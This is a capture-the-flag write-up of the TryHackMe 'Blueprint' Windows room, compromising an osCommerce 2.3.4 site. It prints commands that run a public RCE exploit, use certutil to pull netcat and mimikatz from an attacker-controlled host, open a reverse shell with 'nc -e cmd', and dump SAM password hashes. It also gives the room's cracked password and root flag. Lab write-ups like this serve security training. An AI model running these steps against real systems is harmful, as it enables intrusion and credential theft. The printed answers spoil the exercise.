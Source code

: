```yaml
---
layout: post
title: Blueprint
date: 2023-03-09 12:00 +0700
categories: [THM, easy]
---
```


### Introduction

[Blueprint] is an easy Windows CTF machine on TryHackMe.
I completed the machine without using metasploit, but you can use It to completed too.

![blueprint](https://tryhackme-images.s3.amazonaws.com/room-icons/90243c256ba1d4eb403bc206e376f238.jpeg)



---

Let's start scanning the machine with nmap.

```sh
nmap -sSV -p- -open --min-rate 5000 <IP> -oN <outputfile.txt>
```

We can see like is normal in Windows machines to have a lot of ports open.

![Scan](/images/THM/blueprint/Captura.PNG)

This time we are going to focus on the web because we can't see the SMB service as a guest.

If we go to the web server hosted in port 8080, we can find there is an **OsCommerce** hosted.

![Web](/images/THM/blueprint/Captura2.PNG)

Researching a little, we can find that there is an exploit for the version is hosting the machine.

The [exploit] is the RCE type and *exploit the install.php finish process by injecting php payload into the db_database parameter & read the system command output from configure.php*

![exploit search](/images/THM/blueprint/Captura3.PNG)

So let's try to download it and run it.

```sh
python3 osCommerce2_3_4RCE.py http://<IP>:8080/osCommerce2_3_4/catalog/
```

We can see that it work and we got a shell.

![exploit execution](/images/THM/blueprint/Captura4.PNG)

Let's upgrade our shell!

For that, we will upload netcat executable to execute It and get a reverse shell. We will do It with the in-built Windows command **certutil** to download the executable from our machine.

For serve the binary, we will open a python web server.

```sh
certutil -urlcache -f http//<OUR IP>/<nc or ncat binary> <binary same name>
dir
```

![ncat download](/images/THM/blueprint/Captura6.PNG)

And we will do the same with mimikatz executable.

[Mimikatz] is a tool that extracts passwords stored in memory, among other things.

```sh
certutil -urlcache -f http//<OUR IP>/mimikatz.exe mimikatz.exe
```

![mimikatz download](/images/THM/blueprint/Captura7.PNG)

Time to get our interactive reverse shell.

```sh
nc.exe/ncat.exe <OUR IP> <PORT> -e cmd
```

![revshell](/images/THM/blueprint/Captura8.PNG)

And now we can execute mimikatz to extract the password from the user **Lab**.

```sh
mimikatz.exe
```

![mimikatz](/images/THM/blueprint/Captura9.PNG)

To do that we will be using **lsadump:sam** and this command will dump the users passwords hash.

```sh
lsadump::sam
```

![Hashdump](/images/THM/blueprint/Captura10.PNG)

Again like in other WriteUps I will be using [crackstation] to crack the password.

![cracked password](/images/THM/blueprint/Captura11.PNG)

- "Lab" user NTML hash decrypted
>Answer: googleplus

```sh
dir C:\Users\Administrator\Desktop
type C:\Users\Administrator\Desktop\root.txt.txt
```

We can go to the Administrator folder and show the flag.

With this we've completed the machine.

![root flag](/images/THM/blueprint/Captura5.PNG)

- root.txt
>Answer: THM{aea1e3ce6fe7f89e10cea833ae009bee}

 [blueprint]: https://tryhackme.com/room/blueprint
 [crackstation]:https://crackstation.net/
 [exploit]:https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution
 [mimikatz]:https://github.com/gentilkiwi/mimikatz
